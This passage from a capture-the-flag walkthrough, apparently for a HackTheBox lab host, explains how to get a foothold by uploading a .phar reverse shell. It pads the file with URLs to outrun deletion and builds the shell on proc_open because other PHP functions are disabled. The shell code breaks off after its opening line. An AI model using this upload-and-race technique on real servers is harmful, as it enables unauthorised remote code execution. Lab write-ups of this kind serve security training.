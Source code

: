 And the file got uploaded successfully.

## Foothold

Now what we need is to upload a reverse shell in ```.phar``` file, then find the path of the file and then execute it to get the reverse shell.

Looking further in the source code of ```checker.php``` file.

![Uploaded file directory](9.png "Uploaded file directory")

There's an ```uploads``` directory where it adds another directory with the name of ```md5``` sum of the current timestamp.

So if we upload a ```shell.phar``` file then the uploaded file will be at ```http://dev.siteisup.htb/uploads/md5_sum_of_current_time/shell.phar```.

We can have a look at ```http://dev.siteisup.htb/uploads``` directly right after uploading our file. But the file gets deleted as soon as it is read by the program.

![File Deletion](19.png "File Deletion")

What we can do is create a longer file with a bunch of urls to check and put our reverse shell code right after. This will hopefully give us enough time to execute the file.

Also notice that a bunch of php functions are disabled when we execute our reverse shell so the only shell that worked was with the ```proc_open``` function.

I wrote the shell modifying an example on ```proc_open``` [manual](https://www.php.net/manual/en/function.proc-open.php) page.

```shell.phar``` file.

```bash
http://test.com
http://test.com
http://test.com
...
...
...





<?php
$descriptorspec = array(
```